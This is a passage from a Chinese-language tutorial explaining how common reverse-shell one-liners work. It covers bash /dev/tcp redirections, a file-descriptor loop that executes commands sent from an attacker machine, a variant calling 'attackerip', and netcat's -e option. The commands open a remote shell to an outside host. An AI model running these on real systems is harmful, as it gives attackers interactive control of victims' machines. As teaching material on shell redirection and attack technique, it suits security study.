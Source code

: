 ## **0X04 常见的反弹shell 的语句怎么理解**

### **1.方法一**

```shell
bash -i >& /dev/tcp/192.168.1.130/2333 0>&1
和
bash -i >& /dev/tcp/192.168.1.130/2333 0<&1
```

这里的唯一区别就是 0>&1 和 0<&1 ，其实就是打开方式的不同，而对于这个文件描述符来讲并没有什么区别

### **2.方法二**

```shell
bash -i >& /dev/tcp/192.168.146.129/2333 <&2
等价于
bash -i >& /dev/tcp/192.168.146.129/2333 0<&2
```

### **3.方法三**

```shell
exec 5<>/dev/tcp/192.168.1.130/2333;cat <&5|while read line;do $line >&5 2>&1;done
```

**简单的解释一下：**

```shell
exec 5<>/dev/tcp/192.168.1.130/2333
```

这一句将文件描述符5重定向到了 /dev/tcp/192.168.146.129/2333 并且方式是**读写方式**（这种方法在也讲到过），于是我们就能通过文件描述符对这个socket连接进行操作了

```shell
command|while read line do .....done
```

这个是一个非常经典的句子，它的原句是这样的

```shell
while read line do        … done < file
```

从文件中依次读取每一行，将其赋值给 line 变量（当然这里变量可以很多，以空格分隔，这里我就举一个变量的例子，如果是一个变量的话，那么一整行都是它的了），之后再在循环中对line进行操作。

而现在我们不是从file 文件中输入了，我们使用管道符对攻击者机器上输入的命令依次执行，并将标准输出和标准错误输出都重定向到了文件描述符5，也就是攻击机上，实现交互式shell的功能。

与之完全类似的还有下面这条指令，读者有兴趣可以自己分析一下：

```shell
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
```

### **4.方法四**

nc 如果安装了正确的版本（存在-e 选项就能直接反弹shell）
